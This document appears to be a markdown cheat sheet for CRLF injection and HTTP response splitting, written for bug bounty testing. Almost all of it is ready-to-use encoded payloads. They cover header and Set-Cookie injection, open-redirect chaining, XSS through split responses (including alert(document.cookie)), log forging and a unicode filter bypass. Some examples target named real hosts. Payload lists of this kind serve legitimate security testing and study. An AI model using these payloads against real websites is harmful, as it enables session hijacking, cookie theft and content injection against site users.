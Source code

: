 ### CRLF Injection || HTTP Response Splitting

#### 1. Header-based Test
- **Set-Cookie Injection**:
  ```
  %0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
  ```

- **Basic CRLF Injection**:
  ```
  %0d%0aheader:header
  %0aheader:header
  %0dheader:header
  %23%0dheader:header
  %3f%0dheader:header
  /%250aheader:header
  /%25250aheader:header
  /%%0a0aheader:header
  /%3f%0dheader:header
  /%23%0dheader:header
  /%25%30aheader:header
  /%25%30%61header:header
  /%u000aheader:header
  ```

#### 2. CRLF Chained with Open Redirect
- **Examples**:
  ```
  //www.google.com/%2f%2e%2e%0d%0aheader:header
  /www.google.com/%2e%2e%2f%0d%0aheader:header
  /google.com/%2F..%0d%0aheader:header
  ```

- **Twitter Specific CRLF** (by @filedescriptor):
  ```
  %E5%98%8A%E5%98%8Dheader:header
  ```

#### 3. CRLF Injection to XSS
- **Example**:
  ```
  %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
  ```

#### 4. Response Splitting on 302 Redirect
- **Example**:
  ```
  %0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
  ```

#### 5. Response Splitting on 301 Code
- **Chained with Open Redirect** (by @black2fan, Facebook Bug):
  ```
  %2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
  ```

---

### CRLF Injection in Log Files
- **Example**:
  ```
  123.123.123.123 - 08:15 - /index.php?page=home
  /index.php?page=home&%0d%0a127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
  ```

- **Result**:
  ```
  IP - Time - Visited Path
  123.123.123.123 - 08:15 - /index.php?page=home&
  127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
  ```

---

### HTTP Response Splitting
- **Description**:
  - Exploiting CRLF to split HTTP responses and inject malicious content.

- **Example**:
  ```
  X-Your-Name: Bob
  ?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
  ```

- **Redirect Example**:
  ```
  /%0d%0aLocation:%20http://myweb.com
  ```

- **XSS Example**:
  ```
  http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
  ```

---

### HTTP Header Injection
- **Description**:
  - Injecting headers to bypass security mechanisms like XSS filters or SOP.

- **Example**:
  ```
  http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
  ```

---

### Cheatsheet

#### 1. HTTP Response Splitting
- ```
  /%0D%0ASet-Cookie:mycookie=myvalue
  ```

#### 2. CRLF Chained with Open Redirect
- ```
  //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
  /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
  /google.com/%2F..%0D%0AHeader-Test:test2
  /%0d%0aLocation:%20http://example.com
  ```

#### 3. CRLF Injection to XSS
- ```
  /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
  /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
  ```

#### 4. Filter Bypass
- ```
  %E5%98%8A = %0A = \u560a
  %E5%98%8D = %0D = \u560d
  %E5%98%BE = %3E = \u563e (>)
  %E5%98%BC = %3C = \u563c (<)
  Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
  ```

---

### Tools
- **CRLFuzz**: [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

---

### References
- [Exploiting HTTP Parsers Inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [Bug Bounty: Exploiting CRLF Injection](https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62)
- [CRLF Cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
- https://github.com/dwisiswant0/crlfuzz
- /r/t
--- 

